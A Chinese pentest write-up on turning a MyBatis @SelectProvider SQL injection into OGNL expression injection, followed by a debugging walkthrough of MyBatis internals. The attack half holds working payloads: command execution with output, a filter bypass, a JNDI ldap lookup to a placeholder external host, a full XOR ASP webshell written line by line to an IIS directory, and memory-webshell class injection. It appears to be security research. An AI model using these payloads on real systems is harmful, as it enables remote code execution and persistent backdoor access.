# 渗透回忆录｜Mybatis 从 SQL 注入到 OGNL 表达式注入

  


前言  

前段时间，一位同事跑来问我，说用 Xray 扫出来了一个 SQL 注入漏洞可以执行表达式，但是漏洞没能利用成功。我听了一愣，SQL 注入漏洞执行表达式？同事把 Xray 的扫描截图发给我，orderBy 参数的${911580744+963045104}确实执行了，响应数据包的报错信息里面返回了上述表达式的结果。我看了之后瞬间反应过来了，这不就是 Mybatis 的 OGNL 表达式执行么，之前在 D3CTF 有看过一样的漏洞，没想到在实战环境中居然还真的能遇到。



  


漏洞利用

先构造简单的命令执行 OGNL 表达式，很明显没成功，细看了一下响应数据包的报错信息，发现了端倪，原来是后端代码对用户的输入做了安全处理将 Runtime 转成了\_runtime。

```plain
${@java.lang.Runtime@getRuntime().exec("whoami")}   #原始输入
${@java.lang._runtime@get_runtime().exec("whoami")}  #安全处理
```



一开始以为是将一些危险的函数之类的做了黑名单的处理，进一步测试发现是将用户输入的所有大写字母都做了处理，不知道开发人员是怎么想的呢？让人摸不着头脑。



经过不懈的努力之后发现直接用 unicode 编码 payload 的大写字母就可以绕过了，如下，无回显执行命令成功。  



当然，在不考虑实际漏洞利用环境限制的前提下，还有很多可以执行命令的方式。例如：

```plain
${new javax.naming.InitialContext().lookup("ldap://xxx.xxx.xxx.xxx/a")}  #JNDI 注入利用，需要出网条件
${@jdk.jshell.Jshell@create().eval('java_code')}  #需要 JDK9 以后版本
```

构造回显 payload，成功执行 whoami 命令，得知服务器操作系统为 Windows，用户权限为管理员权限。  

```plain
${#a=(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder({'whoami'}).start().getInputStream()))).readLine()}
```



上面的 payload 只能读取单行结果，也可以使用其他的回显方法可以读取多行结果。

```plain
${new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream()))}
${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}
```



经过探测发现服务器不通外网，所以还是得通过写 webshell 的方式来进一步获取权限，但是 SpringBoot 应用基本不大可能能写 webshell 到应用目录进行访问。刚巧发现服务器上还运行了 IIS 服务，直接访问 URL 的一级目录就出来一个报错信息了，真是山重水复疑无路，柳暗花明又一村。



那就直接往 IIS 的 Web 应用目录写入 webshell 就好了，因为只支持 GET 请求，URL 有长度限制，因此需要通过追加文件的方式分段写入，可以一行一行写，也可以通过写入 base64 编码的 webshell 减少追加写入的次数，然后用 certutil 解码。  

```plain
cmd /c echo ^<% > D:\\release\\***\\***\\test1.asp
cmd /c echo Response.CharSet = "UTF-8" >> D:\\release\\***\\***\\test1.asp
cmd /c echo k="e45e329feb5d925b" >> D:\\release\\***\\***\\test1.asp
cmd /c echo Session("k")=k >> D:\\release\\***\\***\\test1.asp
cmd /c echo size=Request.TotalBytes >> D:\\release\\***\\***\\test1.asp
cmd /c echo content=Request.BinaryRead(size) >> D:\\release\\***\\***\\test1.asp
cmd /c echo For i=1 To size >> D:\\release\\***\\***\\test1.asp
cmd /c echo result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1))) >> D:\\release\\***\\***\\test1.asp
cmd /c echo Next >> D:\\release\\***\\***\\test1.asp
cmd /c echo execute(result) >> D:\\release\\***\\***\\test1.asp
cmd /c echo %^> >> D:\\release\\***\\***\\test1.asp
```

成功写入 webshell。  



但是 webshell 写入几秒后就被删了，服务器安装了终端防护软件，既有 360 安全卫士，又有奇安信天擎。



遇到这种情况能想到的解决办法基本上只能写免杀 webshell 了，要不就直接注入内存 webshell，不过因为不是攻防项目，当时就没有继续折腾。最近突然想起这个漏洞，决定本地搭建模拟环境继续折腾一下。

正常情况下，通过下面的方法就可以成功写入内存 webshell。  

```plain
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString('yv66v...'), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```



但当时面临的实际情况是只支持 GET 请求，因为 URL 是有长度限制的，所以直接使用上面的方法也是不可行的，因为没法分段，只能一次性发送请求。最后的解决方法就是再绕一下，先把字节码的 base64 编码字符串先分段写入服务器文件，然后再去读取从而缩减 payload 的长度。  

```plain
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString(new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("cat /tmp/a").getInputStream())).replace("\n","")), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```



  


  

漏洞原理

Mybatis3 是支持动态 SQL 的，根据动态 SQL 的描述得知是支持使用 OGNL 表达式的。其中 Mybatis 的 if、choose、when、otherwise、trim、where、set、foreach 等元素都支持动态 SQL。



  

除此之外，使用@Provider 注解也是支持动态 SQL 的。  



具体的漏洞示例代码如下，使用了@SelectProvider 注解。  



并且 SQL 查询语句拼接了用户可控的参数，即存在 SQL 注入漏洞。  



下断点动态调试 Mybatis 关键的处理过程，跳过前面 Mybatis 复杂的代理模块部分，来到 ProviderSqlSource 类，该类实现了 SqlSource 接口，用于处理@Provider 注解的 SQL。

org.apache.ibatis.builder.annotation.ProviderSqlSource$createSqlSource



继续跟进发现是通过 XMLLanguageDriver 类的 createSqlSource 方法实现动/静态的 SQL 的判断，如果是是动态 SQL 则进入 DynamicSqlSource 类处理，否则进入 RawSqlSource 类处理。

org.apache.ibatis.scripting.xmltags.XMLLanguageDriver$createSqlSource



跟进动/静态 SQL 的判断逻辑，PropertyParser 类的 parser 方法实际调用了 GenericTokenParser 类的 parse 方法对 SQL 语句进行解析。

org.apache.ibatis.parsing.PropertyParser$parse



  

GenericTokenParser 为通用标记解析器，用于解析 SQL 语句中的#{}和${}占位符参数，这里的解析会去除了占位符前半部分的转义符号，如输入\\${1\*999}会被解析成${1\*999}。而最终的处理则是由指定的标记处理器 TokenHandler 完成。

org.apache.ibatis.parsing.GenericTokenParser$parser



  

继续回到 XMLLanguageDriver 类的 createSqlSource 方法，最终通过 TextSqlNode 类的 isDynamic 方法判断是否为动态 SQL，判断依据为 SQL 语句中是否包含${}。

org.apache.ibatis.scripting.xmltags.TextSqlNode$isDynamic  



接着进入 ProviderSqlSource 类的 getBoundSql 方法，返回 BoundSql 对象。  

org.apache.ibatis.builder.annotation.ProviderSqlSource$getBoundSql



进入 DynamicSqlSource 的 getBoundSql 方法，继续跟进 TextSqlNode 的 apply 方法。

org.apache.ibatis.scripting.xmltags.DynamicSqlSource$getBound



org.apache.ibatis.scripting.xmltags.TextSqlNode$apply

再次进入通用标记解析器，使用 TextSqlNode$BindingTokenParser 对表达式进行处理。  

org.apache.ibatis.parsing.GenericTokenParser$parse



最后，在 handleToken 中调用 OgnlCache.getValue 对 OGNL 表达式进行解析。

org.apache.ibatis.scripting.xmltags.TextSqlNode.BindingTokenParser$handleToken

